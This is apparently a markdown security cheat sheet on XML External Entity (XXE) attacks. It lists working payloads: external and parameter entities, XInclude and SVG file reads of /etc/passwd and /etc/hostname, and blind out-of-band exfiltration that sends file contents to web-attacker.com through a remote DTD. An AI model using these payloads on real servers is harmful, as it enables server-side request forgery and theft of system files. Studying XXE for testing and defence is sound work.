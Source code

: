 ```yaml
---
layout: note
title: "XXE"
category: Web
---
```


# XML External Entities

## Overview

This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser tricking the server to access a resource.

## Exploitation

#### Defining and using an **external entity** in XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<query>&xxe;</query>
```
If external entities are not allowed you may try XML **parameter entities**:
```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

#### XInclude is a part of the XML specification that allows an XML document to be built from sub-documents.
An XInclude attack would look like:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

#### XXE attacks via **file upload**. Note that SVG format uses XML.
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

#### XXE attacks via **modified content type**:  
```http
Content-Type: application/x-www-form-urlencoded -> text/xml
```
#### **Exfiltrate data out-of-band** for blind XXEs

On the server:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
Payload:
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```

Mentions:  
- You can use burp collaborator to monitor DNS queries to your server.
- If out-of-band interactions are blocked you can try exploiting XXE to retrieve data by repurposing a local DTD. If a document's DTD uses a hybrid of internal and external DTD declarations, then the internal DTD can redefine entities that are declared in the external DTD. When this happens, the restriction on using an XML parameter entity within the definition of another parameter entity is relaxed. Now you can redefine an entity from that DTD and cause an error that is hopefully displayed.
<br/>
#### Exploiting **blind XXE** to **retrieve data via error messages**
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

## Attack surface
- **SSRF**
- **File retrieval** from server

## Resources
[Portswigger](https://portswigger.net/web-security/xxe)
